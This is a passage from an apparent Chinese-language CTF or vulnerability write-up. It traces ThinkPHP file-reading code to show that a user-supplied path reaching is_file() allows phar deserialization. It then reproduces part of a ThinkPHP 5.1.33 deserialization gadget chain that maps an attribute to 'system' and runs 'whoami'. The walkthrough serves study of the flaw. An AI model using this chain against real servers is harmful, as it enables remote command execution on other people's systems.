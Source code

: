 再继续跟进`read`函数：

```php
    static public function read($filename,$type=''){
        return self::get($filename,'content',$type);
    }
```

继续跟进`get`函数：

```php
    static public function get($filename,$name,$type=''){
        if(!isset(self::$contents[$filename])){
            if(!is_file($filename)) return false;
           self::$contents[$filename]=file_get_contents($filename);
        }
        $content=self::$contents[$filename];
        $info   =   array(
            'mtime'     =>  filemtime($filename),
            'content'   =>  $content
        );
        return $info[$name];
    }
```

注意到第三行的`is_file($filename)`，`$filename`就是`$_GET['path']`，所以可以实现phar反序列化。

从网上找个thinkphp5.1.33的链子，生成一下phar：

```php
<?php
namespace think\process\pipes {
    class Windows
    {
        private $files;
        public function __construct($files)
        {
            $this->files = [$files];
        }
    }
}

namespace think\model\concern {
    trait Conversion
    {
    }

    trait Attribute
    {
        private $data;
        private $withAttr = ["lin" => "system"];

        public function get()
        {
            $this->data = ["lin" => "whoami"];
        }
    }
}

namespace think {
    abstract class Model
    {
        use model\concern\Attribute;
        use model\concern\Conversion;
    }
}

```